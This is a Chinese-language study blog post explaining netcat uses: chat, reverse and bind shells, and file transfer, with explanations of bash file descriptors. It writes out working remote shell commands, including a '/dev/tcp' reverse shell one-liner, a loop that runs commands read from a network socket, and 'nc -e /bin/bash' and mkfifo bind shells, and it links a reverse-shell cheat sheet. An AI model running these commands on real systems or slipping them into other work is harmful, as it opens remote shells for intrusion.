 ```yaml
---
title: NetCat
date: 2016-08-26 14:17:46
tags:
- network security
- shell
- pipe
categories:
- study
---
```


参考资料:
[http://netcat.sourceforge.net/](http://netcat.sourceforge.net/)
[gnucitizen.org](http://www.gnucitizen.org/blog/reverse-shell-with-bash/)
[http://www.oschina.net/translate/linux-netcat-command](http://www.oschina.net/translate/linux-netcat-command)
[Reverse shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
[NetCat for windows](https://joncraton.org/blog/46/netcat-for-windows/)

---

# 1. nc能干啥？
能扫描，能聊天，能监听，能反弹，能穿透，能代理，能传文件....  
netcat被成为网络工具中的瑞士军刀，具体用法可以参考上述链接或者在\*nix系统的shell中键入`man nc`查看手册．这里建议先好好学习一下Linux系统中管道(| > < >> <<等)的用法以及文件描述符的相关知识．

---
# 2. 栗子:
扫描的话就暂时不用nc了，有兴趣的话可以参考nmap这个工具的详细用法．灰常好用，还能输出各种格式的扫描结果并导入数据库．
## 1. 聊天:
我先在终端用ssh连接到一台Linux主机，然后键入`nc -l 8888`在远程机器的本地进行监听，然后在本机再开一个终端键入`nc -n 10.128.54.118 8888`即可开始聊天.-l参数表示监听，后面8888表示监听网络端口号，这里省略了监听的网卡．默认为"0.0.0.0",表示所有网络接口．-n参数表示不要将IP地址进行DNS逆向解析到主机名.
![nc_liaotian](/images/nc_liaotian.png)

## 2.监听和反弹shell(reverse shell)
先在一台主机shell环境中键入`nc -l -v -p 8888`,然后在另外一台主机中键入`bash -i >& /dev/tcp/10.128.54.118/8888 0>&1`.Bingo!!!,直接反弹回来一个shell终端.后面指令中的bash -i是启动一个交互式的bash,然后重定向到一个tcp描述符文件，是的，在\*nix中，OS的思想是一切都是文件．所以网络连接也是一个文件,`>`后面加上`&`表示不是一个简单的文件，而是文件描述符．这属于shell的高级用法，最起码得知道Linux中0,1,2这三个文件描述符默认是对应着标准输入流，标准输出流，标准错误流．而默认对应的真正物理硬件分别是键盘，显示屏和显示屏．因此可以理解为启动了一个交互式bash将标准输出流`>`重定向到了网络上，然后后面的`0>&1`表示对于标准输入也重定向到标准输出流，而标准输出流已经输出到了网络上了．所以搞在一起就是全部丢到网络上去．相当于节省了一根管道.
![Reverse_shell](/images/nc_reverse_shell.png)
关于反弹shell的代码网络上有很多，比如[这里](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet),囊括了包括Bash,Perl,Python,PHP,Ruby,Netcat,Java等，在渗透测试中可能会用到.上述的代码还可以改成下面:
```bash
$exec 3<>/dev/tcp/10.128.54.118/8888#创建3号文件描述符绑定到一个读写的网络连接
$cat <&3 | while read line; do $line >&3 2>&1; done#cat从3号描述符从读数据然后通过管道丢给while循环，while循环中就读cat的内容并执行，同时将内容重定向到3号描述符，并将错误流也一并回送．
```


## 3. 连接监听的shell(bind shell)
在Server端：
```bash
$nc -l port -e /bin/bash -i
```
在Client端：
```bash
$nc server_ip port 
```
一般用BSD的netcat不支持-e或者-c参数，所以可以通过建立管道文件来进行读写:
```bash
$mkfifo /tmp/tmp_fifo
$cat /tmp/tmp_fifo | /bin/bash -i 2>&1 | nc -l port > /tmp/tmp_fifo
```
![bind_shell](/images/nc_bind_shell.png)

## 4. 传送文件
说实话，在局域网里面传文件还是有些麻烦的．虽然已经有了ftp,smb等协议工具，但是服务端的配置很麻烦．但是有了nc就好了．利用重定向操作，直接实现顶级的文件传送．要传送目录的话可以先用tar等工具压缩和打包，然后再传送，同时支持加解密工具的使用，使得网络窃听者无法对嗅探的流量进行直接地解密．

Sender:
```bash
$nc -l Port < file
```

Receiver:
```bash
$nc IP Port > file
```
![file_send](/images/nc_file_send.png)
当然发送者和接受者的重定向也可以反回来使用，都是没问题的．可以多测试一下．如果利用这个小demo再编程做一个文件服务器的应该也可以哦．

---

# 3. 总结
对于\*nix学习，最好有一本书在手，然后参照命令过一遍，命令很多确实不好记，可以等以后需要的时候再去查，其实用多了就记住了．对于nc这个好的工具目前正好有需求呢所以就学习了一下...
